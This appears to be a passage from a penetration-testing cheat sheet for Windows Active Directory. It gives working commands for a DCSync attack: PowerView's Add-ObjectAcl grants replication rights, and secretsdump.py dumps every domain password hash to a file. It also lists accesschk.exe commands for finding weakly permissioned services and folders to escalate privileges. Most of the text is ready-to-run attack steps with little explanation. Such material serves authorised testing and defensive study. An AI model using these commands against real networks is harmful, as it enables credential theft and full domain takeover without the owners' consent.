 #### Reference
- [https://book.hacktricks.xyz/windows-hardening/lateral-movement/wmicexec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/wmicexec)

## Misconfigurations
### DCSync
DCSync is a technique used to extract credentials from the Domain Controllers.    
In this we mimic a Domain Controller and leverage the (MS-DRSR) protocol and request for replication using GetNCChanges function.

#### Add rights DCSync rights
```powershell
# Set password
$SecPassword = ConvertTo-SecureString <password> -AsPlainText -Force

# Convert password and username into credentials object
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword) 

# Give user DCSync rights
Add-ObjectAcl -Credential $Cred -TargetIdentity "dc=domain,dc=local" -PrincipalIdentity <user> -Rights DCSync
```
#### Get hashes (after user is added to the group)
```bash
secretsdump.py  dc.local/<user>:<password>@<ipaddress> -outputfile hashes
```

# accesschk.exe
AccessChk is a command-line tool for viewing the effective permissions on files, registry keys, services, processes, kernel objects, and more. This tool will be helpful to identify whether the current user can modify files within a certain service directory.      

**Download from [here](https://github.com/ankh2054/windows-pentest).**  
```bat
:: Accept eula
accesschk.exe /accepteula

:: Access to services
accesschk.exe <user> -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services

:: Services access
accesschk.exe -uwcqv Users *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *

:: Weak folder permission per drive
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
```    
